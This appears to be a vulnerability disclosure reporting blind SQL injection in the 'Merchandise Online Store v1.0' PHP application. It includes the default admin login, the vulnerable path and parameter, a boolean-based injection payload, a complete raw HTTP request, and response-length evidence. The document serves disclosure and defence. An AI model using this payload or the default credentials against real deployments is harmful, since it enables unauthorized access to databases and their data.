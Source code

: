 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/admin/orders/view_order.php?view=user&id=

Vulnerability location: /vloggers_merch/admin/orders/view_order.php?view=user&id=,id

[+] Payload: /vloggers_merch/admin/orders/view_order.php?view=user&id=2%27%20and%20length(database())%20=17--+ // Leak place ---> id

Current database name: vloggers_merch_db,length is 17

```sql
GET /vloggers_merch/admin/orders/view_order.php?view=user&id=2%27%20and%20length(database())%20=17--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 16, Content-Length: 4252
![image](https://user-images.githubusercontent.com/54017627/166901248-0c09cdea-7b5f-455d-9097-164c2c50cd53.png)

![image](https://user-images.githubusercontent.com/54017627/166901093-c2cd9aa6-17d7-46e5-897f-0bb02ce43c33.png)

When length (database ()) = 17, Content-Length: 2510
![image](https://user-images.githubusercontent.com/54017627/166901192-467bda9a-feea-4f27-b007-7f251ff4d063.png)

![image](https://user-images.githubusercontent.com/54017627/166901131-725cacb6-f81b-428e-94b8-df43ae2576cf.png)
